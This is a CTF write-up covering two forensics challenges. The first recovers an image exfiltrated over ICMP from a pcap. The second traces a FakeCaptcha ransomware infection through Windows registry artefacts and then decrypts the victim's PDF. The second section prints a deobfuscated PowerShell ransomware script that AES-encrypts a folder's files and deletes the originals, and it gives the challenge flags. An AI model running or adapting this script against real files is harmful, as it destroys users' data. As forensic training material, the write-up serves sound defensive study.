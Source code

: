 ```yaml
---
title: "IDEH v6 Write Up"
date: 2025-04-13 10:00:00 +0800
categories: [CTF Write ups]
tags: [Forensics, Malware]
description: Write Up of the forensics challenges i made for the IDEH v6 CTF
image: ../images/ideh6/1.png
---
```

# pingwin

![](../images/ideh6/2.png)

In this challenge, we have a pcap file. Let's analyze it in Wireshark.

![](../images/ideh6/4.png)

We have two protocols in the traffic: DNS and ICMP, which might indicate possible data exfiltration. Let's investigate further.

![](../images/ideh6/5.png)

There's nothing suspicious in the DNS traffic—just queries to an invalid domain, `notgoogle.com`, with no data being transferred.

Now, let's move on to the ICMP traffic.

![](../images/ideh6/6.png)

The first ICMP (ping) request contains some data. In the first request, the data is a PNG file signature, indicating that an image is being exfiltrated through the protocol.

Let's use the `tshark` command line to extract all data chunks and reconstruct the image file:

```
tshark -r pingwin.pcapng -Y "icmp && ip.src == 192.168.42.173" -T fields -e data.data | tr '\n' '\0' | xxd -r -p > solve.png
```

And here is the image being exfiltrated:


![](../images/ideh6/7.png)

FLAG : `IDEH{h0l4_qu3_p4s4_4l_kh4w4}`

# captcha

![](../images/ideh6/3.png)

In this challenge, we have an encrypted PDF file and a ZIP file containing a disk image.

![](../images/ideh6/8.png)

Based on the challenge description, the victim had their PDF encrypted after verifying a captcha on a website.

The captcha verification seems unusual, as a regular captcha verifier doesn't ask the user to open the Windows Run dialog (Windows key + R).
This attack is known as FakeCaptcha, and it is widely spread across the web.
Most of these attacks involve phishing the user into running a pre-copied payload via the Windows Run dialog.
The script is typically an infostealer malware, but in this case, it's ransomware, so let's investigate further.

Opening the disk image with an imaging tool (I used FTK Imager), we can see the user's files.

![](../images/ideh6/9.png)

Great! In Windows, the history of commands used in the Run dialog is stored in the registry at the following path:
`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU`

Now, let's locate the user registry hive. The user registry is located in the root folder of the user’s directory and is called `ntuser.dat`

 ![](../images/ideh6/10.png)

Let's export this file from the image. To view its contents, we need **Registry Explorer**, a great tool from Eric Zimmerman.

After opening the registry, navigate to the path:
`\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU` to find the history of commands

![](../images/ideh6/11.png)

The malicious payload makes a web request to retrieve the actual payload from Pastebin. Visiting the URL, we can see an obfuscated PowerShell command. We need to deobfuscate it to understand its behavior.

![](../images/ideh6/12.png)

Here is the deobfuscated version:

```py
$folderPath = [System.IO.Path]::Combine([System.Environment]::GetFolderPath("Desktop"), "random_folder_to_not_damage_the_entire_system")
if (-not (Test-Path $folderPath)) {
    Write-Host "Folder not found. Exiting."
    exit
}
$computerName = [System.Environment]::MachineName
if ($computerName.Length -lt 16) {
    $key = $computerName + ('9' * (16 - $computerName.Length))
} else {
    $key = $computerName.Substring(0, 16)
}
Write-Host "Key: $key"
$keyBytes = [System.Text.Encoding]::UTF8.GetBytes($key)
Write-Host "Key Bytes: $($keyBytes -join ', ')"
$aesAlg = [System.Security.Cryptography.Aes]::Create()
$aesAlg.Key = $keyBytes
$aesAlg.Mode = [System.Security.Cryptography.CipherMode]::ECB
$aesAlg.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
Get-ChildItem -Path $folderPath -File | ForEach-Object {
    $filePath = $_.FullName
    $encryptor = $aesAlg.CreateEncryptor($aesAlg.Key, $null)
    $cryptoStream = New-Object System.Security.Cryptography.CryptoStream(
        [System.IO.File]::OpenWrite($filePath + ".enc"),
        $encryptor,
        [System.Security.Cryptography.CryptoStreamMode]::Write
    )
    $inputFileStream = [System.IO.File]::OpenRead($filePath)
    $inputFileStream.CopyTo($cryptoStream)
    $cryptoStream.FlushFinalBlock()
    $cryptoStream.Close()
    $inputFileStream.Close()
    Remove-Item $filePath -Force
}
```

This PowerShell script encrypts files in a "Desktop" folder **random_folder_to_not_damage_the_entire_system** using AES-ECB with a key derived from the computer name.

- If the computer name is shorter than 16 characters, it pads it with the character `9`.

- If the computer name is longer, it truncates it to 16 characters.

- The script appends `.enc` to the encrypted files and deletes the originals.

Now, we need the computer name to construct the encryption key. The computer name is stored in the Windows registry, specifically at `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ComputerName\ComputerName`

Let's retrieve the system machine hive.

In the disk image, the registry hive is located in the main folder, before the user folder.

![](../images/ideh6/13.png)

We open it again using **Registry Explorer** and navigate to the **ComputerName** path.

![](../images/ideh6/14.png)

The computer name is `DESKTOP-QELPTBL`

Since the computer name is 15 characters long, the script will pad it with the character `9` to make it a 16-character string.

Thus, the encryption key is `DESKTOP-QELPTBL9`

Now, let's decrypt the PDF file using a custom Python script.

```py
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import os

def dec_file(encrypted, decrypted, key):
    with open(encrypted, 'rb') as f:
        ciphertext = f.read()
    cipher = AES.new(key, AES.MODE_ECB)
    dec_data = unpad(cipher.decrypt(ciphertext), AES.block_size)
    with open(decrypted, 'wb') as f:
        f.write(dec_data)
    print(f"decrypted and saved as {decrypted}")

key = b"DESKTOP-QELPTBL9"
encrypted = 'flag.pdf.enc'
decrypted = 'flag.pdf'
dec_file(encrypted, decrypted, key)
```

...and voilà, we got the PDF back:

![](../images/ideh6/15.png)

FLAG : `IDEH{D1g174l_F0r3n51c_M4573r}`

